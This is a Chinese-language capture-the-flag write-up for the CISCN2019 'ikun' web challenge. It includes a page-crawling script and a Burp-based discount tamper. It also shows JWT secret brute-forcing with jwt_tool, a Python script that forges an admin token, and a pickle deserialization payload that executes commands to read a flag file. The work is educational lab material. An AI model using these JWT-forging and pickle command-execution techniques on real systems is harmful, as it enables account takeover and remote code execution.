 # [CISCN2019 华北赛区 Day1 Web2]ikun

## 知识点

`JWT`

`pickle`

## 解题

进入题目首页

![](./img/16-1.png?lastModify=1708305010)

要求冲到`lv6`

翻了几页没看见，用`python`脚本找一下

```python
import requests

for i in range(1, 200):
    url = f"http://84eb6b56-3cf8-4b61-91fd-02bd6f875a03.node5.buuoj.cn:81/shop?page={i}"
    resp = requests.get(url)
    print(i, flush=True)
    if 'lv6.png' in resp.text:
        print(f"find -> {i}")
        break
```

运行结果为`180`

![](./img/16-2.png?lastModify=1708305010)

发现了`lv6`的购买链接，`burpsuite`抓包看看

![](./img/16-3.png?lastModify=1708305010)

发现下面的`discount`即为折扣值

修改成功跳转后发现要求`admin`才能登录

发现`JWT`有签名，尝试破解一下

使用`jwt_tool`的字典破解

```bash
python3 .\jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNjYyJ9.J2bFVzLD9m-41Jq8Z4J-FAB-8Kx04DqrvTcxQM521O4 -C -d .\top19576.txt
```

![](./img/16-6.png?lastModify=1708305010)

得到`secret`为`1Kun`

或者使用`jwtcrack`获取`secret`

![](./img/16-8.png?lastModify=1708305010)

`Cyberchef`解密结果

![](./img/16-7.png?lastModify=1708305010)

使用`python`生成`jwt`

```python
# coding=utf-8
import hmac
import hashlib
import base64

key = '1Kun'

header = '{"alg": "HS256","typ": "JWT"}'
payload = '{"username": "admin"}'

encodeHBytes = base64.urlsafe_b64encode(header.encode("utf-8"))
encodeHeader = str(encodeHBytes, "utf-8").rstrip("=")

encodePBytes = base64.urlsafe_b64encode(payload.encode("utf-8"))
encodePayload = str(encodePBytes, "utf-8").rstrip("=")

token = (encodeHeader + "." + encodePayload)


sig = base64.urlsafe_b64encode(hmac.new(bytes(key, "UTF-8"), token.encode("utf-8"), hashlib.sha256).digest()).decode("UTF-8").rstrip("=")

print(token + "." + sig)
```

运行结果为`eyJhbGciOiAiSFMyNTYiLCJ0eXAiOiAiSldUIn0.eyJ1c2VybmFtZSI6ICJhZG1pbiJ9.iRc4KyWA0et3DmhK0nFu7aznKWxX6KuXJhisec_QUtY`

放入`Cookie`中可以发现用户名已经变为`admin`

![](./img/16-9.png?lastModify=1708305010)

再到`burpsuite`中进行购买`lv6`

购买的时候发现了隐藏信息

![](./img/16-11.png?lastModify=1708305010)

在下载的文件里发现了`pickle`反序列化，那么就可以利用`pickle`反序列化执行命令了

![](./img/16-12.png?lastModify=1708305010)

```python
import pickle
import urllib
import commands

class A(object):
    def __reduce__(self):
      # return (eval, ("__import__('os').system('ls')",))


        # return (commands.getoutput, ("ls /",))
        return (commands.getoutput, ("cat /flag.txt",))
 
a = A()
s = pickle.dumps(a)
print(urllib.quote(s))
```

`python2`运行后为

```
ccommands%0Agetoutput%0Ap0%0A%28S%27cat%20/flag.txt%27%0Ap1%0Atp2%0ARp3%0A.
```

![](./img/16-13.png?lastModify=1708305010)

放到`burpsuite`的`become`参数即可

![](./img/16-14.png?lastModify=1708305010)

